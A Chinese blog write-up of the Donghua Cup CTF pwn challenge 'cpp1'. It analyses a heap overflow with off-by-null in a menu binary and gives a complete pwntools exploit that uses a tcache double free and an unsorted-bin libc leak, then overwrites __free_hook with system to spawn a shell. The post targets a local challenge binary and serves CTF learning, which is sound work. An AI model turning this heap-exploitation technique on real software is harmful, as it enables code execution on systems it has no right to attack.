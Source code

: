 ```yaml
---
layout: post
title: "东华杯-pwn-cpp1"
date: 2021-11-11
tags: [Pwn]
comments: true
author: JumpWang

---
```


从自己的csdn搬来的，还带着水印，懒得弄了（）

前一阵子东华杯的pwn题，比赛时候没做出来，说起来那时候我才刚学到fastbin attack，天天在和libc2.23打交道，比赛的时候时候看见libc全是2.31的......孩子人都傻了，遂去misc划水。。。~~（r n m,退钱！）~~

现在终于看了tcache，寻思试一下之前的赛题，于是有了这篇博客，做起来发现，好像并没有那么难？

我本地的环境就是2.31的，所以就在本地尝试复现了一下，文件已经传到了网盘，想复现的师傅们可以[在这里下载](https://pan.baidu.com/s/1c351qD3H6Lssrg1x8gT1Cg) 
提取码：xymi

## 分析
### main函数如下
![在这里插入图片描述](https://img-blog.csdnimg.cn/86eaf8c9500a453e8f384a646e91e991.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6ZW_5Lqt5LiA5qKm,size_20,color_FFFFFF,t_70,g_se,x_16)
### 菜单
![在这里插入图片描述](https://img-blog.csdnimg.cn/64b44ba4c64b4c58a3de84dba91c6d30.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6ZW_5Lqt5LiA5qKm,size_20,color_FFFFFF,t_70,g_se,x_16)
### new
new中允许自定义index（0 <= index <= 16）和size（size < 0xff），并不填充内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/44143c4a80064015bf3cb04f441b7ad9.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6ZW_5Lqt5LiA5qKm,size_20,color_FFFFFF,t_70,g_se,x_16)
### change
漏洞点在这里，change中指定index填充内容，但是不对内容长度做检查，存在堆溢出，其中cin会在字符串末尾自动添加'\0'，可以off-by-null
![在这里插入图片描述](https://img-blog.csdnimg.cn/0ce67f6d9d334cf1bb8a578fee9e372c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6ZW_5Lqt5LiA5qKm,size_20,color_FFFFFF,t_70,g_se,x_16)
### show
show可以打印堆块内容，可以用来泄露
![在这里插入图片描述](https://img-blog.csdnimg.cn/76b2e342755645d696f2dbec020351de.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6ZW_5Lqt5LiA5qKm,size_20,color_FFFFFF,t_70,g_se,x_16)
### delete
![在这里插入图片描述](https://img-blog.csdnimg.cn/fc2cd856622241a5ac167055dd07e665.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6ZW_5Lqt5LiA5qKm,size_20,color_FFFFFF,t_70,g_se,x_16)
## 利用
通过利用tcache的不严谨和off-by-null，我们可以制造出`double free`的情况，在此基础上，将特定大小的tcache填充满（一般是七个）之后【这里是绕过tcache】，新free的small bin大小的堆块将会首先被放到unsorted bin中，利用unsorted bin的`双向循环链表`的特性，当其中只有一个堆块时，它的fd和bk指针都会指向链表头也就是unsorted bin，此时就可以通过`show`来泄露libc基址
然后就是非常简单的了，利用堆溢出修改tcache链表中的fd指针，就可以申请到`__free_hook`，通过change修改成system，，再向可控堆块内写入'/bin/sh\x00'，就大功告成了
这里不得不说，tcache的检查实在是太松散了，连堆块大小都不检查的，比fastbin舒服多了（）

## 详解
首先申请五个堆块
这里chunk0的作用是让chunk1的用户操作段起始地址（即chunk1+0x10）末位为'\x00'，方便一会off-by-null，以后也不会再用到，index就申请为16了
```python
new(b'16', b'48')   # chunk0
new(b'0', b'144')    # chunk1
new(b'1', b'16')    # chunk2
new(b'2', b'16')    # chunk3
new(b'3', b'16')    # chunk4
```
删除index 2、1，
此时 tcache -> chunk2 -> chunk3 -> null
```python3
delete(b'2')
delete(b'1')
```
off-by-null 部分写chunk2的fd
此时tcache -> chunk2 -> chunk1
```python3
change(b'0', b'\x00' * 0x98 + p64(0x21))
```
再连续申请两次，构造出double free，tcache清空
```python3
# double free idx 0 and idx 5
new(b'4', b'16')    # chunk2
new(b'5', b'16')    # chunk1
```
塞满tcache
tcache -> index6 -> 7 ->8 -> 9 -> 10 -> 11 -> 12
```python3
new(b'6', b'144')
new(b'7', b'144')
new(b'8', b'144')
new(b'9', b'144')
new(b'10', b'144')
new(b'11', b'144')
new(b'12', b'144')

delete(b'12')
delete(b'11')
delete(b'10')
delete(b'9')
delete(b'8')
delete(b'7')
delete(b'6')
```
泄露libc
```python3
delete(b'0')
show(b'5')
main_arena = u64(io.recvline()[:-1].ljust(8, b'\x00'))
print('main_arena -> ' + hex(main_arena))

libc_addr = main_arena - 0x1ebb80 - 96
print('libc_addr -> ' + hex(libc_addr))
```
申请到`__free_hook`
先改tcache为
tchche -> 6 -> `__free_hook`
 再连续申请两次
```python3
hook = libc.symbols['__free_hook'] + libc_addr
sys = libc.symbols['system'] + libc_addr

change(b'3', p64(0) * 3 + p64(0xa1) + p64(hook))

# 申请到free_hook的地址
new(b'6', b'144')
new(b'7', b'144')
```
getshell
```python3
change(b'7', p64(sys))
change(b'6', b'/bin/sh\x00')

delete(b'6')
```

## 完整exp
```python3
from pwn import *

context(log_level = 'debug', arch = 'amd64', os = 'linux')

io = process('./dh_pwn')

# gdb.attach(io)

elf = ELF('./dh_pwn')
libc = ELF('./libc.so.6')


def new(idx, size):
    io.recvuntil(b'>>\n')
    io.sendline(b'1')
    io.recvuntil(b'I:>>\n')
    io.sendline(idx)
    io.recvuntil(b'S:>>\n')
    io.sendline(size)


def change(idx, content):
    io.recvuntil(b'>>\n')
    io.sendline(b'2')
    io.recvuntil(b'I:>>\n')
    io.sendline(idx)
    io.recvuntil(b'V:>>\n')
    io.sendline(content)


def show(idx):
    io.recvuntil(b'>>\n')
    io.sendline(b'3')
    io.recvuntil(b'I:>>\n')
    io.sendline(idx)


def delete(idx):
    io.recvuntil(b'>>\n')
    io.sendline(b'4')
    io.recvuntil(b'I:>>\n')
    io.sendline(idx)

new(b'16', b'48')   # chunk0
new(b'0', b'144')    # chunk1
new(b'1', b'16')    # chunk2
new(b'2', b'16')    # chunk3
new(b'3', b'16')    # chunk4

delete(b'2')
delete(b'1')
change(b'0', b'\x00' * 0x98 + p64(0x21))

# double free idx 0 and idx 5
new(b'4', b'16')    # chunk2
new(b'5', b'16')    # chunk1

new(b'6', b'144')
new(b'7', b'144')
new(b'8', b'144')
new(b'9', b'144')
new(b'10', b'144')
new(b'11', b'144')
new(b'12', b'144')

delete(b'12')
delete(b'11')
delete(b'10')
delete(b'9')
delete(b'8')
delete(b'7')
delete(b'6')

delete(b'0')
show(b'5')
main_arena = u64(io.recvline()[:-1].ljust(8, b'\x00'))
print('main_arena -> ' + hex(main_arena))

libc_addr = main_arena - 0x1ebb80 - 96
print('libc_addr -> ' + hex(libc_addr))

hook = libc.symbols['__free_hook'] + libc_addr
sys = libc.symbols['system'] + libc_addr

change(b'3', p64(0) * 3 + p64(0xa1) + p64(hook))

# 申请到free_hook的地址
new(b'6', b'144')
new(b'7', b'144')

# onegad = libc_addr + 0xe6e76
change(b'7', p64(sys))
change(b'6', b'/bin/sh\x00')

delete(b'6')

io.interactive()

```